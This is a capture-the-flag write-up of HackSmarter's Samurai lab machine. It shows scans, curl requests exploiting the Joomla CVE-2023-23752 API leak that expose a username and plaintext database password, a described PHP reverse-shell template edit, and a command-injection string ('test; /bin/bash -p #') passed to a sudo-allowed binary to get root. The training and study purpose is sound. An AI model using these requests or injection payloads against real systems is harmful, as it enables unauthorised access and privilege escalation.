


HackSmarter's Samurai chains an unauthenticated Joomla API leak (CVE-2023-23752) into admin access, a PHP shell, and root through a command-injection flaw in a sudo-allowed binary.


HackSmarter Joomla 4.2.5 Linux

## Objective

As part of a penetration test, your team identified an interesting
web server. Your task is to enumerate the target, establish an initial
foothold, and escalate privileges to root.

### Initial Access

You have been provisioned VPN access to the client environment. No initial credentials are provided.

## Attack Path






---
config:

    treeView:
    showIcons: true
---
treeView-beta
    recon/
        nmap ## SSH 22 and Apache 2.4.52 on port 80
        nikto ## Admin page and exposed shell history files
        joomscan ## Joomla 4.2.5 identified
    initial-access/
        CVE-2023-23752 :::highlight ## Unauthenticated Joomla API leak
        users.json ## Username: miyamoto
        config.json ## Database password exposed
        admin-login ## Same password reused for the admin panel
    foothold/
        index.php :::highlight ## Admin template edited to inject a PHP reverse shell
        www-data ## Shell received on the listener
    privilege-escalation/
        sudo-l ## DbMaria allowed as root without a password
        DbMaria :::highlight ## Command injection in its argument
        root.txt ## Root shell obtained





---

## Enumeration

### Nmap

    ```bash {hl_lines=[3]}

        22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
        80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.52 ((Ubuntu))
    ```




    ```bash

    PORT   STATE SERVICE REASON         VERSION
    22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)

    80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.52 ((Ubuntu))
    |_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
    |_http-csrf: Couldn't find any CSRF vulnerabilities.
    | http-phpmyadmin-dir-traversal: 
    |   VULNERABLE:
    |   phpMyAdmin grab_globals.lib.php subform Parameter Traversal Local File Inclusion
    |     State: UNKNOWN (unable to test)
    |     IDs:  CVE:CVE-2005-3299
    |       PHP file inclusion vulnerability in grab_globals.lib.php in phpMyAdmin 2.6.4 and 2.6.4-pl1 allows remote attackers to include local files via the $__redirect parameter, possibly involving the subform array.
    |       
    |     Disclosure date: 2005-10-nil
    |     Extra information:
    |       ../../../../../etc/passwd :
    |   <!DOCTYPE html>
    |   <html lang="en">
    |   <head>
    |   <meta charset="UTF-8">
    |   <meta name="viewport" content="width=device-width, initial-scale=1.0">
    |   <title>Samurai</title>
    |   <style>
    |   html, body {
    |     margin: 0;
    |     padding: 0;
    |     width: 100%;
    |     height: 100%;
    |     background: #000;
    |     font-family: system-ui, -apple-system, Segoe UI, Roboto, Arial, sans-serif;
    |   }
    |   
    |   .wrap {
    |     position: relative;
    |     width: 100%;
    |     min-height: 100vh;
    |     overflow: hidden;
    |     background: #000;
    |   }
    |   
    |   video.bg {
    |     position: absolute;
    |     inset: 0;
    |     width: 100%;
    |     height: 100%;
    |     object-fit: cover;
    |     object-position: center center;
    |     z-index: 0;
    |     filter: brightness(0.55);
    |     background: #000;
    |   }
    |   
    |   .logo {
    |     position: absolute;
    |     top: 25px;
    |     right: 30px;
    |     z-index: 3;
    |   }
    |   
    |   .logo img {
    |     width: min(260px, 30vw);
    |     max-width: 260px;
    |     height: auto;
    |     display: block;
    |   }
    |   
    |   /* Smaller content area pinned to bottom-left */
    |   .content {
    |     position: absolute;
    |     left: 32px;
    |     bottom: 32px;
    |     z-index: 2;
    |     width: auto;
    |     min-height: auto;
    |     display: block;
    |   }
    |   
    |   /* Smaller panel so it does not take monitor-sized space */
    |   .panel {
    |     width: min(360px, 34vw);
    |     max-width: 360px;
    |     padding: 18px 20px;
    |     border-radius: 14px;
    |     background: rgba(0,0,0,0.55);
    |     color: #fff;
    |     backdrop-filter: blur(6px);
    |     box-shadow: 0 10px 30px rgba(0,0,0,0.35);
    |   }
    |   
    |   h1 {
    |     margin: 0 0 10px 0;
    |     font-size: 30px;
    |     letter-spacing: 0.5px;
    |   }
    |   
    |   p {
    |     margin: 0 0 10px 0;
    |     line-height: 1.5;
    |     font-size: 14px;
    |     color: rgba(255,255,255,0.92);
    |   }
    |   
    |   ul {
    |     margin: 10px 0 0 18px;
    |     padding: 0;
    |   }
    |   
    |   li {
    |     margin: 8px 0;
    |     line-height: 1.4;
    |     font-size: 14px;
    |   }
    |   
    |   strong {
    |     color: #fff;
    |   }
    |   
    |   .hint {
    |     margin-top: 14px;
    |     padding-top: 12px;
    |     border-top: 1px solid rgba(255,255,255,0.18);
    |     font-size: 12px;
    |     color: rgba(255,255,255,0.75);
    |   }
    |   
    |   .asset-warning {
    |     position: absolute;
    |     left: 32px;
    |     bottom: 24px;
    |     z-index: 4;
    |     padding: 10px 14px;
    |     border-radius: 10px;
    |     background: rgba(160, 20, 20, 0.85);
    |     color: #fff;
    |     font-size: 14px;
    |     max-width: 80vw;
    |   }
    |   
    |   @media (max-width: 768px) {
    |     .logo img {
    |       width: min(200px, 42vw);
    |       max-width: 200px;
    |     }
    |   
    |     .content {
    |       left: 16px;
    |       right: 16px;
    |       bottom: 16px;
    |     }
    |   
    |     .panel {
    |       width: auto;
    |       max-width: none;
    |       padding: 16px 18px;
    |     }
    |   
    |     h1 {
    |       font-size: 26px;
    |     }
    |   
    |     p, li {
    |       font-size: 13px;
    |     }
    |   }
    |   </style>
    |   </head>
    |   <body>
    |   <div class="wrap">
    |   
    |         
    |     
    |         <div class="logo">
    |         
    |       </div>
    |     
    |     <div class="content">
    |       <div class="panel">
    |         <h1>Samurai</h1>
    |   
    |         <p>
    |           Samurai were Japan\xE2\x80\x99s warrior class from the 10th to 19th century.
    |           They served feudal lords and were known for discipline, loyalty,
    |           and mastery of martial arts.
    |         </p>
    |   
    |         <p><strong>Common swords used:</strong></p>
    |         <ul>
    |           <li><strong>Katana:</strong> main sword</li>
    |           <li><strong>Wakizashi:</strong> short companion sword</li>
    |           <li><strong>Tachi:</strong> older cavalry sword</li>
    |           <li><strong>Tanto:</strong> dagger</li>
    |         </ul>
    |   
    |         <div class="hint">
    |           Craft your sword.
    |         </div>
    |       </div>
    |     </div>
    |   
    |     
    |   </div>
    |   </body>
    |   </html>
    |   
    |     References:
    |       http://www.exploit-db.com/exploits/1244/
    |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2005-3299
    |_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
    |_http-majordomo2-dir-traversal: ERROR: Script execution failed (use -d to debug)
    |_http-dombased-xss: Couldn't find any DOM based XSS.
    |_http-server-header: Apache/2.4.52 (Ubuntu)
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Device type: general purpose
    Running: Linux 4.X
    OS CPE: cpe:/o:linux:linux_kernel:4.15
    OS details: Linux 4.15
    TCP/IP fingerprint:
    OS:SCAN(V=7.99%E=4%D=10/21%OT=22%CT=%CU=32428%PV=Y%DS=3%DC=T%G=N%TM=6AD950B
    OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)SEQ
    OS:(SP=104%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M510ST11NW7%O2=M510ST11
    OS:NW7%O3=M510NNT11NW7%O4=M510ST11NW7%O5=M510ST11NW7%O6=M510ST11)WIN(W1=F4B
    OS:3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M51
    OS:0NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(
    OS:R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F
    OS:=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)U1(R=Y%DF=N%T
    OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
    OS:S)

    Uptime guess: 25.149 days (since Sat Sep 26 16:20:23 2026)
    Network Distance: 3 hops
    TCP Sequence Prediction: Difficulty=260 (Good luck!)
    IP ID Sequence Generation: All zeros
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    TRACEROUTE (using port 443/tcp)
    HOP RTT       ADDRESS
    1   215.98 ms 10.200.0.1
    2   ...
    3   216.90 ms 10.1.214.69

    NSE: Script Post-scanning.
    NSE: Starting runlevel 1 (of 2) scan.
    Initiating NSE at 19:54
    Completed NSE at 19:54, 0.00s elapsed
    NSE: Starting runlevel 2 (of 2) scan.
    Initiating NSE at 19:54
    Completed NSE at 19:54, 0.00s elapsed
    Read data files from: /usr/share/nmap
    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 17.61 seconds
            Raw packets sent: 68 (4.684KB) | Rcvd: 40 (3.056KB)
    ```




## Found Joomla login page

`http://samurai.hsm/administrator/`



## Nikto Scan




    ```bash
    ┌──(dfaults㉿kali)-[~/ctf/hacksmarter/samurai]
    └─$ nikto -url http://samurai.hsm/                  
    - Nikto v2.6.0
    ---------------------------------------------------------------------------
    + Target IP:          10.1.214.69
    + Target Hostname:    samurai.hsm
    + Target Port:        80
    + Platform:           Unknown
    + Start Time:         2026-10-21 22:04:04 (GMT-4)
    ---------------------------------------------------------------------------
    + Server: Apache/2.4.52 (Ubuntu)
    + ERROR: Failed to check for updates: 403
    + No CGI Directories found (use '-C all' to force check all possible dirs). CGI tests skipped.
    + [600050] Apache/2.4.52 appears to be outdated (current is at least 2.4.66).
    + [013587] /: Suggested security header missing: permissions-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Permissions-Policy
    + [013587] /: Suggested security header missing: content-security-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
    + [013587] /: Suggested security header missing: referrer-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy
    + [013587] /: Suggested security header missing: strict-transport-security. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Strict-Transport-Security
    + [013587] /: Suggested security header missing: x-content-type-options. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Content-Type-Options
    + [999967] /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
    + [001535] /.psql_history: This might be interesting.
    + [001702] /includes/: This might be interesting.
    + [001897] /tmp/: This might be interesting.
    + [002743] /.bash_history: A user's home directory may be set to the web root, the shell history was retrieved. This should not be accessible via the web.
    + [002748] /.mysql_history: Database SQL?.
    + [002756] /.sh_history: A user's home directory may be set to the web root, the shell history was retrieved. This should not be accessible via the web.
    + [003573] /LICENSE.txt: License file found may identify site software.
    + [006270] /administrator/index.php: Admin login page/section found.
    + [999986] /api/soap/?wsdl=1: Retrieved x-powered-by header: JoomlaAPI/1.0.
    + [007129] /.sqlite_history: This might be interesting.
    + [007203] /userdata.json: This might be interesting.
    + [007204] /login.json: This might be interesting.
    + [007205] /master.json: This might be interesting.
    + [007206] /masters.json: This might be interesting.
    + [007207] /connections.json: This might be interesting.
    + [007208] /connection.json: This might be interesting.
    + [007210] /PasswordsData.json: This might be interesting.
    + [007211] /users.json: This might be interesting.
    + [007212] /conndb.json: This might be interesting.
    + [007213] /conn.json: This might be interesting.
    + [007215] /accounts.json: This might be interesting.
    + [007303] /JAMonAdmin.jsp: JAMon - Java Application Monitor Admin interface identified. Versions 2.7 and earlier contain XSS vulnerabilities. See: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-6235
    + [007342] /: X-Frame-Options header is deprecated and was replaced with the Content-Security-Policy HTTP header with the frame-ancestors directive. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/X-Frame-Options
    + [007352] /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
    + 8764 requests: 16 errors and 31 items reported on the remote host
    + End Time:           2026-10-21 22:19:16 (GMT-4) (912 seconds)
    ---------------------------------------------------------------------------
    + 1 host(s) tested
    ```



## Version Enumeration with Joomscan

Joomscan is a tool for identifying the Joomla version installed on a web server. To use it it’s as simple as `joomscan -u example.site` and watch it give back the version.

    ```bash {hl_lines=[21]}

        ____  _____  _____  __  __  ___   ___    __    _  _ 
    (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
    .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
    \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
                            (1337.today)
    
        --=[OWASP JoomScan
        +---++---==[Version : 0.0.7
        +---++---==[Update Date : [2018/09/23]
        +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
        --=[Code name : Self Challenge
        @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

    Processing http://samurai.hsm/ ...

    [+] FireWall Detector
    [++] Firewall not detected

    [+] Detecting Joomla Version
    [++] Joomla 4.2.5

    ```

## User Enumeration via CVE-2023-23752

https://www.exploit-db.com/exploits/51334

Manually checking, we can curl the endpoint the script is using to get the information we need

### User Enumeration

    ```bash {hl_lines=[19]}

    ┌──(dfaults㉿kali)-[~/ctf/hacksmarter/samurai]
    └─$ curl -i http://samurai.hsm/api/index.php/v1/users?public=true

    HTTP/1.1 200 OK
    Date: Fri, 23 Oct 2026 00:09:21 GMT
    Server: Apache/2.4.52 (Ubuntu)
    x-frame-options: SAMEORIGIN
    referrer-policy: strict-origin-when-cross-origin
    cross-origin-opener-policy: same-origin
    X-Powered-By: JoomlaAPI/1.0
    Expires: Wed, 17 Aug 2005 00:00:00 GMT
    Last-Modified: Fri, 23 Oct 2026 00:09:21 GMT
    Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
    Pragma: no-cache
    Content-Length: 389
    Content-Type: application/vnd.api+json; charset=utf-8

    {"links":{"self":"http:\/\/samurai.hsm\/api\/index.php\/v1\/users?public=true"},"data":[{"type":"users","id":"769","attributes":{"id":769,"name":"Oda","username":"Miyamoto","email":"oda@local.local","block":0,"sendEmail":1,"registerDate":"2026-03-06 09:02:33","lastvisitDate":null,"lastResetTime":null,"resetCount":0,"group_count":1,"group_names":"Super Users"}}],"meta":{"total-pages":1}}

    ```

### Password Dump

    ```bash {hl_lines=[18]}
    ┌──(dfaults㉿kali)-[~/ctf/hacksmarter/samurai]
    └─$ curl -i http://samurai.hsm/api/index.php/v1/config/application?public=true 

    HTTP/1.1 200 OK
    Date: Fri, 23 Oct 2026 00:16:16 GMT
    Server: Apache/2.4.52 (Ubuntu)
    x-frame-options: SAMEORIGIN
    referrer-policy: strict-origin-when-cross-origin
    cross-origin-opener-policy: same-origin
    X-Powered-By: JoomlaAPI/1.0
    Expires: Wed, 17 Aug 2005 00:00:00 GMT
    Last-Modified: Fri, 23 Oct 2026 00:16:16 GMT
    Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
    Pragma: no-cache
    Content-Length: 1996
    Content-Type: application/vnd.api+json; charset=utf-8

    {"links":{"self":"http:\/\/samurai.hsm\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/samurai.hsm\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/samurai.hsm\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Samurai","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes":{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"joomla425","id":224}},{"type":"application","id":"224","attributes":{"password":"Pa847word987@Joomla456","id":224}},{"type":"application","id":"224","attributes":{"db":"Dbjoomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"iemj4_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}
    ```

## Login as Miyamoto user

### Credentials found via curl

    ```bash
    User: miyamoto
    Password: Pa847word987@Joomla456
    ```

Once we’re inside the dashboard we take advantage of the currently running template by going into System->Templates->Administrator Templates. Once there, we can inject our php shell code into the index.php file (the main page) and save our changes. Then we have our listener running and refresh the main page on the web server and get a reverse shell back as `www-data.`

After looking around for a bit, we find our user flag which is in an unconventional place (not in the home folder). Then we proceed to escalate our privileges by running `sudo -l` this will help us see if we can run anything as sudo without a password.

## Shell as root user

Once you find the file we can run as root without a password we can run the following command to get into the root shell

    ```bash {hl_lines=[1]}
    www-data@streetcoder:/opt/backup$ sudo ./DbMaria 'test; /bin/bash -p #'

    /*M!999999\- enable the sandbox mode */ 
    -- MariaDB dump 10.19  Distrib 10.6.23-MariaDB, for debian-linux-gnu (x86_64)
    --
    -- Host: localhost    Database: test
    -- ------------------------------------------------------
    -- Server version       10.6.23-MariaDB-0ubuntu0.22.04.1
    ```

This will let us get the root flag located in `~/root/root.txt` and with that, we have compromised the machine.
